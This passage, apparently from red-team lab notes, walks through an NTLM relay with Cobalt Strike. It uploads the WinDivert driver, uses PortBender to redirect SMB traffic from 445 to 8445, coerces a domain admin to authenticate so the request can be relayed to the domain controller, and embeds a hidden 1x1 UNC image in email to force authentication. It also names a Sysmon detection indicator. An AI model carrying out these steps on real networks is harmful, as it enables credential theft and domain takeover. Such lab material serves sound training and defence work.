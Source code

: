     beacon> cd C:\Windows\system32\drivers
    beacon> upload C:\Tools\PortBender\WinDivert64.sys

Then go to Cobalt Strike > Script Manager and load PortBender.cna from C:\Tools\PortBender - this adds a new PortBender command to the console.

    beacon> help PortBender
    Redirect Usage: PortBender redirect FakeDstPort RedirectedPort
    Backdoor Usage: PortBender backdoor FakeDstPort RedirectedPort Password

Execute PortBender to redirect traffic from 445 to port 8445 (breaks any legitimate SMB service on the machine):

    beacon> PortBender redirect 445 8445

To trigger the attack, coerce a user or a machine to make an authentication attempt to Workstation 2. Do it manually for the lab by using the console of Workstation 1 as the user nlamb. This user is a domain admin, so we can relay the authentication request to the domain controller.

    C:\Users\nlamb>hostname
    wkstn-1
    C:\Users\nlamb>dir \\10.10.123.102\relayme

PortBender should log the connection and ntlmrelayx will spring into action.

Link to the Beacon:

    beacon> link dc-2.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10

To stop PortBender, stop the job and kill the spawned process:

    beacon> jobs
    
     JID  PID   Description
     ---  ---   -----------
     2    5740  PortBender
    
    beacon> jobkill 2
    beacon> kill 5740

One of the main indicators of this activity is the driver load event for WinDivert. Use the "Loaded Drivers" saved search in Kibana (Sysmon Event ID 6). Although the WinDivert driver has a valid signature, seeing a unique driver load on only one machine is an anomalous event.

## Forcing NTLM Authentication

In the real world, it's unlikely to jump onto the console of a machine as a privileged user and authenticate to your malicious SMB server. Can wait for a random event, or try to socially engineer a privileged user. There are also techniques to "force" users to unknowingly trigger NTLM authentication attempts to your endpoint.

### 1x1 Images in Emails

If you have control over an inbox, you can send emails that have an invisible 1x1 image embedded in the body.  When the recipients view the email in their mail client, such as Outlook, it will attempt to download the image over the UNC path and trigger an NTLM authentication attempt.

    <img src="\\10.10.123.102\test.ico" height="1" width="1" />
